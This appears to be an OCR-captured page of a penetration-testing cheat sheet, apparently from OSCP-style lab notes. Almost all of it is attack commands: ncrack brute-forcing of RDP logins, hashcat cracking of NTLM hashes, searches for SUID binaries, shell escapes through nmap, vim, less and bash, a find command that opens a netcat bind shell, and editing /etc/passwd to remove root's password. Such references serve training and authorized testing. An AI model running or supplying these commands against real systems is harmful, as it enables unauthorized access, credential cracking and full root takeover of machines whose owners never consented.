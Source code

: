 ```
```
## ncrack
```
$ ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35
```

## hashcat
```
$ hashcat -m 1000 NTLMHASHNTHASH /usr/share/wordlists/rockyou.txt -O
```

### Privilege Escalation
## Linux
#### Information
* get version
```
$ uname -a
$ cat /etc/*-release
```
* service
```
$ ps
```
#### Priv Esc
find possible entry
```
$ find / -user root -perm -4000 -print 2>/dev/null
$ find / -perm -u=s -type f 2>/dev/null
$ find / -user root -perm -4000 -exec ls -ldb {} \;
```
* nmap
```
$ nmap --interactive
$ nmap> !sh
```
* find
```
$ touch pentestlab
$ find pentestlab -exec whoami \;
$ find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;
```
* vim
```
$ vim.tiny /etc/shadow
# Press ESC key
:set shell=/bin/sh
:shell
```
* bash
```
$ bash -p
```
* less
```
$ less /etc/passwd
!/bin/sh
```
* cp
If we can read/write on /etc/passwd
```
$ cp /etc/passwd /tmp
$ sed -i 's/root:x:0:0:root:\/root:\/bin\/bash/root::0:0:root:\/root:\/bin\/bash/g' /tmp/passwd
$ cat /tmp/passwd > /etc/passwd
```